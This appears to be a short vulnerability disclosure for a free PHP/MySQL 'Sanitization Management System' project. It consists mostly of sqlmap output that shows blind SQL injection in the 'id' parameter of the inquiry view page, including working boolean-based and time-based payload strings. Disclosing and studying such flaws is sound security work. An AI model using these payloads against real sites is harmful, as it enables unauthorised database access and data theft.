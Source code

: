 https://www.sourcecodester.com/php/15770/sanitization-management-system-project-php-and-mysql-free-source-code.html




```
sqlmap identified the following injection point(s) with a total of 233 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: page=inquiries/view_inquiry&id=1' AND 8900=8900 AND 'VzZe'='VzZe

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=inquiries/view_inquiry&id=1' AND (SELECT 5602 FROM (SELECT(SLEEP(5)))hbGO) AND 'ApiP'='ApiP
---
[22:08:02] [INFO] the back-end DBMS is MySQL
web application technology: OpenResty, PHP 7.4.33
back-end DBMS: MySQL >= 5.0.12
[22:08:02] [INFO] fetched data logged to text files under '/home/cc/.local/share/sqlmap/output/ample2.v50to.cc'

[*] ending @ 22:08:02 /2023-08-15/

```

![Alt text](image.png)